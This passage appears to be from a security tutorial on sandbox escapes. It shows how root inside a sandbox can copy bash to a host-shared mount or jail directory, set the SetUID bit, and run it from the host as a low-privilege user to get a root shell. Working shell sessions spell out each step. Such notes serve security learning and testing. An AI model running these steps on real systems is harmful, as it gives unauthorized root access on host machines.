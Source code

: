 Imagine there is a `/data` directory mounted to `/tmp/data` in the sandbox that comes from the host. When you can write here, you can create a SetUID binary as the high-privilege user to then access as the low-privilege user on the host machine:

<pre class="language-shell-session"><code class="lang-shell-session">$ ./program    # Enter sandbox
<strong># cp /bin/bash /data/bash  # Create a shell binary through mount on the host
</strong><strong># chmod +s /data/bash      # Set SetUID permissions on the shell binary
</strong># # === using shellcode ===
<strong># chmod("/data/bash", 06777)
</strong>
# # Back on the host machine
<strong>$ /tmp/data/bash -p        # Execute the created SUID shell
</strong>bash-5.0#
</code></pre>

Even when there is no directory explicitly mounted, you may be able to write a SetUID shell and access it on the host through the jail directory. Similarly to [#chroot](sandboxes-chroot-seccomp-and-namespaces.md#chroot "mention"), namespaces can use `pivot_root` to change the `/` to somewhere else. If you can make this directory accessible to the low-privilege host user, however, you may be able to access the SetUID shell again because it exists on the same filesystem:

<pre class="language-shell-session"><code class="lang-shell-session">$ ./program    # Enter sandbox
<strong># cp /bin/bash bash  # Create shell binary
</strong><strong># chmod +s bash      # Set SetUID permissions as root
</strong><strong># chmod 777 .        # Allow low-privilege host user to access the jail directory 
</strong>
# # Back on the host machine
<strong>$ /tmp/jail/bash -p        # Execute the created SUID shell
</strong>bash-5.0#
</code></pre>
